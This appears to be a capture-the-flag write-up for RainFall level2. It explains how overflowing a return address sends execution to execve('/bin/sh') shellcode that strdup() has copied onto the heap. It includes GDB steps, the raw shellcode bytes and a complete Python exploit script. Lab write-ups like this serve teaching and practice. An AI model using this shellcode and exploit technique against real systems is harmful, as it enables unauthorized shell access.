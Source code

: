 LEVEL_2:
# 📚 Exploiting `level2` – Exploit the overflow to get a shell.
this is a heap overflow, we execute shellcode from the heap using strdup().

Exploit Strategy:</br>

Inject shellcode into local_50 buffer:
  - strdup(local_50) copies this shellcode to heap at a predictable address (found via GDB).
  - Overflow RET to point to the heap address returned by strdup().
  - When p() returns → EIP = heap → shellcode executes → /bin/sh spawns.

Why This Works?</br>

NX disabled → heap is executable(Check only blocks stack addresses, not heap).</br>
```sh
level2@RainFall:~$ cat /proc/sys/kernel/randomize_va_space
0
```
ASLR (Address Space Layout Randomization) is disabled.
ASLR off → heap address is stable (e.g., 0x0804a008).
strdup() gives us a writable+executable space for shellcode.

Find heap address after strdup() using GDB:
```
break *0x0804853d
run < <(python exploit.py)
info registers
```
Craft payload:

Shellcode: 25-byte Linux x86 execve("/bin/sh").

Padding to 76 bytes.</br>
Overwrite EBP (4 bytes).</br>
Overwrite RET with heap address.
```
from struct import pack
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    "\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    "\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
heap_addr = 0x0804a008
payload  = shellcode
payload += "A" * (76 - len(shellcode))
payload += "B" * 4
payload += pack("<I", heap_addr)
print(payload)
```

> (python exploit.py; cat) | ./level2
